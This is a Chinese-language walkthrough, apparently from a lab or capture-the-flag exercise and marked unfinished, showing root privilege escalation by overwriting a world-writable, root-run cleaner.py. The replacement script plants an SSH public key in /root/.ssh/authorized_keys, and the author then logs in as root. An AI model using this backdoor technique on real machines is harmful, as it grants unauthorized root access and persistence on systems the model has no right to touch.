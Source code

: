 继续查看信息 / lib/log/cleaner.py

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaVYtbMvrvMS8N4WNEFNrNmngHYkpT21MlLrmX7j5xswJIJF7MnxVHEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaw4UMYXBzWExgERyZNYs0xE7grgEuuhRF17xFiaD6tJr5NdpDtvrR4zg/640?wx_fmt=png)

cleaner.py 脚本是以 root 权限执行的，并且该脚本是全局可写的，那么我们就可以利用这一点进行提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniatRzlRGW5VKtDCKWVWqlcib7bgslOc5h1lTQoFVvhe46K37Y56m0ST5g/640?wx_fmt=png)

使用 ssh-keygen（用来生成 ssh 公钥认证所需的公钥和私钥文件）

目录默认、密码 Pass.txt、反复输入密码即可在 / root/.ssh / 目录生成 id_rsa、 id_rsa.pub 文件

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaSjtQEZbqWO6ibXIGFiclb3ibiaW1WVH5XbJicpYpbib3ic3Tu3vDZWEvHla3g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWnia7pGS0ZydLCYoIicSfxrTpvQh9WW1o2IVL20krxSMYX2QM4zSllXypYA/640?wx_fmt=png)

将 id_rsa.pub 产生的密匙内容复制到文本中

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniakHSVXprdMz5E8BvDOQuW13IOBZyxD92l4s4SUic89WdssyLACNX8MCg/640?wx_fmt=png)

使用 vim 修改 cleaner.py 文件

命令：

#!/usr/bin/env python

import os

import sys

try:

    os.system('mkdir /root/.ssh; chmod 775 .ssh; echo" 加上 id_rsa.pub 产生的密匙内容上图有例子 ">> /root/.ssh/authorized_keys')

except:

    sys.exit()

这脚本提供给大家，收藏慢慢累积学习

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniasHR60pq9sP7T41GtunmxeZcqrhuer2wsKnw7rsoHwR15AV4fp0tOTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Hju2o35jBmTq6KFH2V0l2rpO9o6GicBiaYibgkMVJKERutggHic6HP3Cv9MbAmNwCsjW8knnZZgmA1yceegAFSN4OA/640?wx_fmt=png)

出来后直接执行 ssh root@192.168.182.143，然后输入 Pass.txt 即可登录

这边的例子请用在正途！！后面还可以用反弹 shell，或者自己写木马 shell 去提权，目前我还比较菜... 在努力脑补！！

不缺乏更多的方式方法，方法知晓记得越来越多，网络安全就会在你面前形同一张纸，你想进入就动动手指即可！！

![](https://mmbiz.qpic.cn/mmbiz_png/IhUDNJicR5NCFnPJhYUTqib6NmY4leia2t3Fs2QenHUiaZRPguibTFokOE3Lput5g5a5tTlkf5GagGpiaojrZrVtnXvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FsnuXk0t6LH3R7BicuMFRt0dIZZSAvaWdqCcKn7hCMGrdXOlhdHXZsnZD9jF4DVYF7BEhGymY9NWXoWtYHprg0Q/640?wx_fmt=png)

此文章还未完...
